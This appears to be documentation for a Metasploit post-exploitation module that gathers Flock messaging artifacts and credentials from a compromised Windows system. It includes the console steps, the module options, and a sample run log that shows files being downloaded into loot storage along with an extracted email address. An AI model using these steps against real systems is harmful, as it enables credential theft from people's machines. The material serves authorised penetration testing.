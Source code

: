 ## Module Description

This post-exploitation module gathers artifacts found on flock related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/flock
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
mmsf6 post(windows/gather/credentials/flock) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Flock's parent folder found
[*] Flock's parent folder found
[*] Flock's parent folder found
[*] Flock's *.log file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\IndexedDB\file__0.indexeddb.leveldb\000124.log
[*] Flock 000124.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000124.log_227739.log

[+] File with credentials saved:  /root/.msf4/loot/20210513124826_default_192.168.56.106_EXTRACTION.log_378223.log
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\IndexedDB\https_auth.flock.com_0.indexeddb.leveldb\000004.log
[*] Flock 000004.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000004.log_041330.log

[+] File with credentials saved:  /root/.msf4/loot/20210513124826_default_192.168.56.106_EXTRACTION.log_514565.log
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\Local Storage\leveldb\000008.log
[*] Flock 000008.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000008.log_824047.log

[+] email":"kazuyoshimaruta@outlook.jp","teamInfo":
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```